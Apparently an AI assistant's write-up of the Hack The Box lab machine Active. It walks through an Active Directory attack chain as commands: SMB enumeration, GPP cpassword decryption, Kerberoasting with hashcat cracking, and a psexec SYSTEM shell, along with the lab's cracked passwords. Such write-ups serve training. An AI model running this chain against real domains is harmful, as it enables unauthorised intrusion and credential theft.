 Awesome job on completing HTB: Active! 🎉 Here's a full walkthrough-style write-up organized by phases, with all commands and relevant explanations included, and protocols hyperlinked where applicable:

---

## 🧭 Recon

### 🔍 Full TCP Port Scan
```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.100
```

### 🔍 Service Version and Script Scan
```bash
nmap -sV -sC -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001,49152-49158,49169,49170,49179 -oA nmap/scripts 10.10.10.100
```

### 🔍 UDP Scan (for completeness)
```bash
nmap -sU -p- --min-rate 5000 -oA nmap/alludp 10.10.10.100
```

Key open ports included [Kerberos](KERBEROS), [SMB](SMB), [LDAP](LDAP.md), and [HTTP](HTTP).

---

## 📂 SMB Enumeration

### 🔎 Share Listing with smbmap
```bash
smbmap -H 10.10.10.100
```

### 🔎 Confirm access with enum4linux
```bash
enum4linux -a 10.10.10.100
```

---

## 📁 Replication Share - GPP Password

### 🗂️ Access the Replication share
```bash
smbclient //10.10.10.100/Replication -U ""%""
```

### 🧾 Locate GPP password in `Groups.xml`
```xml
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
```

### 🔐 Decrypt GPP password
```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
# Output: GPPstillStandingStrong2k18
```

---

## 👤 User Shell

### 🗂️ Enumerate users with access
```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```

### 📥 Get `user.txt`
```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
smb: \SVC_TGS\desktop\> get user.txt
```

---

## 🔥 Kerberoasting

### 🎟️ Dump SPNs with Impacket
```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

### 🔓 Crack Ticket with Hashcat
```bash
hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
# Output: Ticketmaster1968
```

---

## 🛠️ Administrator Access

### 🔓 Use cracked password to access shares
```bash
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```

### 📥 Get `root.txt`
```bash
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
smb: \users\administrator\desktop\> get root.txt
```

---

## 🖥️ Shell as SYSTEM (Optional)

### 📦 Use psexec.py from Impacket
```bash
psexec.py active.htb/administrator@10.10.10.100
# Enter password: Ticketmaster1968
```

```cmd
whoami
# Output: nt authority\system
```
